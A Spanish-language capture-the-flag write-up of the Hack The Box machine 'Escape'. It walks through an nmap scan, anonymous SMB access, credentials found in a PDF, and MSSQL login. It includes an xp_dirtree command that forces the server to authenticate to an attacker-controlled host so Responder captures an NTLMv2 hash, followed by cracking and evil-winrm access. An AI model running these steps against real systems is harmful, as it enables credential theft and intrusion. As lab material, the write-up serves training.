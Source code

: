 # EscapeWriteUp
Writeup de Escape HTB

Empezamos con un escaneo de nmap

~~~
sudo nmap -v -sS -oX vulnerabilidades.xml --stylesheet="https://svn.nmap.org/nmap/docs/nmap.xsl" --script=vuln 10.10.11.202 -Pn -p-
~~~

![imagen](https://user-images.githubusercontent.com/108554878/225091888-805b94d6-57ee-498d-af53-2c3c3c00bea3.png)


Vemos smb en el 445, mssql en el 1433 y winreg en el 5985

Primero que nada entramos de forma anónima a smb 

![imagen](https://user-images.githubusercontent.com/108554878/225092170-f200660f-a15e-40b8-ae23-c93d50935bc2.png)

Vemos varias carpetas

Entremos a public

![imagen](https://user-images.githubusercontent.com/108554878/225092256-ca7e5137-d942-40ca-a97e-8a878a277018.png)

Vemos un pdf

Dentro del pdf encontramos unas credenciales

![imagen](https://user-images.githubusercontent.com/108554878/225092313-54426388-d5f5-476b-a821-4dc22c83dfdf.png)

Con esto nos logueamos en mssql

![imagen](https://user-images.githubusercontent.com/108554878/225092412-f47b7273-20a7-4d2c-80dd-b48e7ecb6589.png)

Estando aqui leemos que se puede hacer en mssql para entrar a la máquina

https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server

Después de intentar varias cosas que vienen en la documentación ponemos

~~~
exec master.dbo.xp_dirtree '\\10.10.14.168\any\thing'
~~~

Seteamos con responder algo que consiga las credenciales NTLMv2

~~~
sudo responder -I tun0 -w 
~~~

![imagen](https://user-images.githubusercontent.com/108554878/225092571-457a1cea-ac33-4e26-84c3-91273dd7b1c1.png)

Ahora crackeamos el hash

![imagen](https://user-images.githubusercontent.com/108554878/225092636-eb65cfa3-2f09-43ec-81e0-e86baa09556c.png)

Encontramos las credenciales y entramos con evilwinrm

![HTB](https://user-images.githubusercontent.com/108554878/225093047-66a8ac6e-ca60-4b73-aa5e-4236317578dd.png)

Entramos con evil-winrm

Vemos que hay un errorlog .BAK

Aquí encontramos las credenciales de Ryan.Cooper

![HTB](https://user-images.githubusercontent.com/108554878/225093457-d8d46db7-36ee-45a0-8b0d-e3299bb386db.png)


